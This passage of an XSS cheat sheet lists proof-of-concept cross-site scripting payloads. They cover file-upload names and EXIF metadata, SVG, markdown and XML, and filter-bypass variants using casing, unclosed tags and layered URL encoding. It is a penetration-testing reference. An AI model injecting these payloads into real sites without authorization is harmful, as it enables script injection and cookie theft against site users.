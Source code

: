 14. XSS in filename (File Upload) Use when uploaded filename is reflected somewhere in target page

```
"><svg onload=alert(1)>.jpeg
```

15. XSS in metadata (File Upload) Use when uploaded metada is reflected somewhere in target page (using exiftool)

```
$ exiftool -Artist='"><script>alert(1)</script>' dapos.jpeg
```

16. XSS with SVG file (File Upload)

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

17. XSS via markdown

```
[Click Me](javascript:alert('1'))
```

18. XSS in XML page

```
<a:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```

> Add a "-->" to payload if input lands in a comment section

> Add a "]]>" if input lands in a CDATA section

## **XSS Cheat Sheet (Bypass)**

19. Mixed Case

```html
<Script>alert(document.cookie)</Script> 
```

20. Unclosed Tags

```html
<svg onload="alert(1)"
```

21. Uppercase Payloads

```html
<SVG ONLOAD=ALERT(1)>
```

22. Encoded XSS

```html
(Encoded)
%3Csvg%20onload%3Dalert(1)%3E 

(Double Encoded)
%253Csvg%2520onload%253Dalert%281%29%253E 

(Triple Encoded)
%25253Csvg%252520onload%25253Dalert%25281%2529%25253E 
```
